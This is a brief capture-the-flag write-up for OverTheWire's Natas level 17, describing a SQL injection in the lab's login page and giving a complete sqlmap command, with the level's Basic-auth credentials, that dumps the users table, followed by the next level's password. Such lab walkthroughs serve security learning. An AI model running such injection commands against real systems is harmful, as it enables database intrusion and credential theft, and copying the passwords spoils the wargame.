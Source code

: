 ﻿**Natas (OTW)**

**Natas 17 Writeup:**

Natas level 16 —>17

![](Aspose.Words.37eb746b-6279-4dc2-8c07-7c47ee9fe9da.001.jpeg)

![](Aspose.Words.37eb746b-6279-4dc2-8c07-7c47ee9fe9da.002.jpeg)

![](Aspose.Words.37eb746b-6279-4dc2-8c07-7c47ee9fe9da.003.jpeg)

On inspecting the source code we see that this too uses a database to retrieve its data and the data can be extracted using sql injection.

![](Aspose.Words.37eb746b-6279-4dc2-8c07-7c47ee9fe9da.004.jpeg)In this case we use a sql tool called sqlmap which will help us in retrieving the data from the database, for doing the same we will have to complete the same by constructing a payload that will allow us to inject the database.

![](Aspose.Words.37eb746b-6279-4dc2-8c07-7c47ee9fe9da.005.jpeg)

**Payload :** python sqlmap.py -u "http://natas17.natas.labs.overthewire.org/" --technique=T --string="" --auth-type=Basic --auth-cred=natas17:8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw --data "username=natas17" -D natas15 -T users -C username,password --dump --level=5 risk=3 --database=mysql

**Natas18 :** xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
